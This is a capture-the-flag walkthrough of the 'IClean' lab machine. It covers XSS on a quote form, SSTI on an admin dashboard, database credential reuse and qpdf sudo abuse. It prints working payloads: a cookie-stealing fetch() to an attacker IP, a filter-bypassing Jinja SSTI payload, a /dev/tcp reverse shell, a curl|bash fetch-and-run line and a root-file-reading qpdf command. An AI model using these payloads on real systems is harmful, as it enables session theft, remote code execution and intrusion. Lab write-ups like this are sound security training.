| Title | IClean |
|---|---|
| Description | IClean is a medium-difficulty Linux machine featuring a website for a cleaning services company. The website contains a form where users can request a quote, which is found to be vulnerable to Cross-Site Scripting (XSS). This vulnerability is exploited to steal an admin cookie, which is then used to access the administrator dashboard. The page is vulnerable to Server-Side Template Injection (SSTI), allowing us to obtain a reverse shell on the box. Enumeration reveals database credentials, which are leveraged to gain access to the database, leading to the discovery of a user hash. Cracking this hash provides SSH access to the machine. The user’s mail mentions working with PDFs. By examining the sudo configuration, it is found that the user can run qpdf as root. This is leveraged to attach the root private key to a PDF, which is then used to gain privileged access to the machine. |
| Difficulty | Medium |
| Maker | LazyTitan33 |
Foothold
Nmap
└─$ nmap -sC -sV -oA nmap/iclean 10.10.11.12
# Nmap 7.94SVN scan initiated Tue Jul 23 22:26:36 2024 as: nmap -sC -sV -oA nmap/iclean 10.10.11.12
Nmap scan report for 10.10.11.12
Host is up (0.092s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_ 256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open http Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
There are only 2 services running, ssh and http. On visiting the webpage, it is redirecting us to capiclean.htb adding the host in /etc/hosts. Now we can able to see the webpage.

The only functionality I can see is login page/login - try to bruteforce using hydra or get a quote /quote - sent mail to admin, which probably leads to XSS. On other hand, we can also try gobuster in order to get endpoints.
GoBuster
└─$ gobuster dir -u capiclean.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://capiclean.htb
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about (Status: 200) [Size: 5267]
/login (Status: 200) [Size: 2106]
/services (Status: 200) [Size: 8592]
/team (Status: 200) [Size: 8109]
/quote (Status: 200) [Size: 2237]
/logout (Status: 302) [Size: 189] [--> /]
/dashboard (Status: 302) [Size: 189] [--> /]
/choose (Status: 200) [Size: 6084]
No interesting endpoint found from gobuster.
XSS on Quote Page
So, let’s start with quote page. On submitting the quote, it says - Your quote request was sent to our management team. They will reach out soon via email. Thank you for the interest you have shown in our services. I can sense there is something to do related to XSS. Here is the request.

I have tried simple payloads of XSS and URL encoded it, and yes, I got a hit. Payload used -<img src=x onerror=fetch("http://10.10.15.125/?c="+document.cookie);>

Here is the session cookie -eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Zq16Cw.eOHOWeSVCA2DYHyuXuFx3IJLxOI. Now adding that to our browser. On our previous gobuster scan, we have seen there is a dashboard which was redirecting us to homepage, now it’s try to visit /dashboard.

SSTI
There are multiple functionalities in dashboard such as Generate Invoice, Generate QR, Edit Services, Quote Requests. So let’s start with first one, Generate Invoice. It will simply generate Invoice ID - 7251335009. Next, Generate QR will generate the QR code for invoice. On bottom of this page when you get QR URL, there is another field, that is generating invoice based on the images provided. Here is the request.

Now, as it was evaluating the images, I thought of using SSTI payload, and luckily it worked.
I have tried multiple payloads, but all of them are giving500 - Internal Server Error except this one. {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
This Payload bypasses most common filters ('.','_','|join','[',']','mro' and 'base') by https://twitter.com/SecGus:

Simple URL Encoding of reverse shell was not working -bash -i >& /dev/tcp/10.10.15.125/4444 0>&1 So I have to use file and transfer it with curl and using bash execute it with this payload. So making a file with rev shell at shell and then start python http server and use this payload curl+http://10.10.15.125:8000/shell|bash.

User Flag
In app.py > db_config we can able to get the password for user database user iclean
db_config = {
'host': '127.0.0.1',
'user': 'iclean',
'password': 'pxCsmnGLckUb',
'database': 'capiclean'
}
Get Full TTY using this commands
python3 -c "import pty;pty.spawn('/bin/bash')"
Ctrl + Z
stty raw -echo; fg
Then it will continue the shell and just press enter(assuming you're on kali)
MySQL
Login with mysql with this command mysql -u iclean -p then enter password.
In MySQL this are the commands used.
| Commands | Description |
|---|---|
| show databases; | To get a list of databases |
| use <db_name>; | To select any particular DB |
| show tables; | To list all the tables on selected DB. |
| SELECT | To select rows from DB |

We got the hashes for admin and consuela user. With crackstation we can able to get the password forconsuela user which is simple and clean.

We can able to login with SSH using this password.consuela@iclean:~$ cat user.txt
7b30cf22980c2fc947e1e25ab39db1c4
Root Flag
With sudo -l we can able to run /usr/bin/qpdf binary as root.
consuela@iclean:~$ sudo -l
[sudo] password for consuela:
Matching Defaults entries for consuela on iclean:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User consuela may run the following commands on iclean:
(ALL) /usr/bin/qpdf
Checking --help in this binary.

From help menu, I can not be able to do much, I have to see it’s official documentation for more context. And finally I came up with a payload.sudo /usr/bin/qpdf --empty /tmp/root.txt --qdf --add-attachment /root/root.txt --. It will create a root.txt file in tmp directory.

Root Flag -4c2f59a87ce4ad788333aa64407c5563